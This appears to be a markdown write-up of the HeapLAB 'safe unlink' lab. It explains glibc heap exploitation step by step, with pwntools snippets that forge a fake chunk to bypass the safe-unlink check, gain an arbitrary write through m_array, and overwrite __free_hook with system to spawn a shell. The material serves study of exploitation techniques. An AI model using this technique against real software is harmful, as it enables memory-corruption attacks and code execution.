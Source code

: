 # Safe Unlink

## Checksec

![checksec.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/checksec.png)

## Tips
1. Avoid use 'vis' command when corrupted the heap

2. Some commands
```
pwndbg> p *((struct malloc_chunk*)0x603010).fd
pwndbg> dq mp_-sbrK_base
pwndbg> p__free_hook
pwndbg> ds m_array[0].user_data
```

## Reflected write

### 1. Prepare chunks


![Image1.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image1.png)

### 2. Bypass protections

#### corrupted size vs. prev_size

```
fd = 0xdeadbeef
bk = 0xcafebabe
prev_size = 0x90
fake_size = 0x90
edit(chunk_A, p64(fd) + p64(bk) + p8(0)*0x70 + p64(prev_size) + p64(fake_size))
```

The prev_size field must correspond to the size field of the previous chunk.


#### corrupted double-linked list


![Image2.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image2.png)


The problem is shown in the code section, and we can see that libc detects our unlinking because the backward pointer of next chunk must point to the original previous chunk of this, and forward pointer of previous chunk also must point to the original next chunk of this. As the error shows, it says that the doubly linked list was corrupted.

We could pass the safe unlinking check by simply setting both our forged fd and bk to the address of the chunk being unlinking. Malloc doesn't keep track of allocated chunks, it keeps pointers to its heaps' top chunk and free chunk in their respective arenas, but when a chunk is allocated to a thread, that thread is expected to keep a reference of the chunk, the program must strore pointers to every chubk it's been allocated somewhere, whether it keeps them on the stack, in data section or even on the heap itself.

This binary keeps pointers in their data section in an array labeled m_array...

![Image3.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image3.png)


```
fd = elf.sym.m_array-24
bk = elf.sym.m_array-16
prev_size = 0x90
fake_size = 0x90
edit(chunk_A, p64(fd) + p64(bk) + p8(0)*0x70 + p64(prev_size) + p64(fake_size))
```

![Image4.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image4.png)

But error persists, so maybe need to make that chunk needs to unlink from the start of user data's of chunk, we need to add some metadata since we are now forging an entire fake chunk inside it.

Lastly, we need to decrease the amount of garbage out bk and prev size field to account for the new fields.

```
fd = elf.sym.m_array-24
bk = elf.sym.m_array-16
prev_size = 0x80
fake_size = 0x90
edit(chunk_A, p64(0)+p64(80)+ p64(fd) + p64(bk) + p8(0)*0x60 + p64(prev_size) + p64(fake_size))
free(chunk_B)
```

We had to create a new chunk because when it validates the size, the bytes we ask for having to add the 16 of the metadata and that is when it does not meet the prev size constraint. And we could not request the chunk of that size from the beginning, because I would not store them in the same list and they would not be contiguous.

![Image5.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image5.png)

This is enough to pass the safe unlinking check ...

![Image6.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image6.png)

We noticed that the area has also been overwritten

![Image7.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image7.png)

And arbitrary writing has worked, now m_array points to our fake chunk, and can write on itself. 

```
edit(0,p64(0)*3 +p64(elf.sym.target))
edit(0, 'Hello world')
```

![Image8.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/Image8.png)

![reflected_write.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/reflected_write.jpeg)

## Get Shell

```
edit(0,p64(0)*3 +p64(libc.sym.__free_hook - 8 ))
edit(0, b'/bin/sh\0'+ p64(libc.sym.system))
free(0)
```

![shell.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/safe_unlink/assets/shell.png)

## Summary

- Request two chunks A and B, and leveraged an overflow bug to clear prev_inuse flag on the allocated chunk B.
- Prepare a fake chunk metadata in its previous chunk, chunk A, including a size field, forward pointer and backward pointer, and prev_size field.
- When we freed chunk B, its clear prev_inuse flag indicated to malloc that the previous chunk was free, therefore a candidate for consolidation.
- Malloc used our forged prev_size field to find the start of the previous chunk so it could unlink prior to consolidation.
- FD and BK checked that the BK at the destination pointed back to our fake chunk, and perform the same check to BK.
- Once our fake chunk passed the safe unlinking checks, malloc unlinked it. 
- It followed our FD and copied our BK over the BK at its destination. Then it followed our BK and copied our FD over the FD at its destination.


## References

* Max Kamper, Linux Heap Exploitation - Part 1, Udemy 6(15)
* https://github.com/ivanmedina/Pwning/tree/master/HEAP/HeapLAB/unsafe_unlink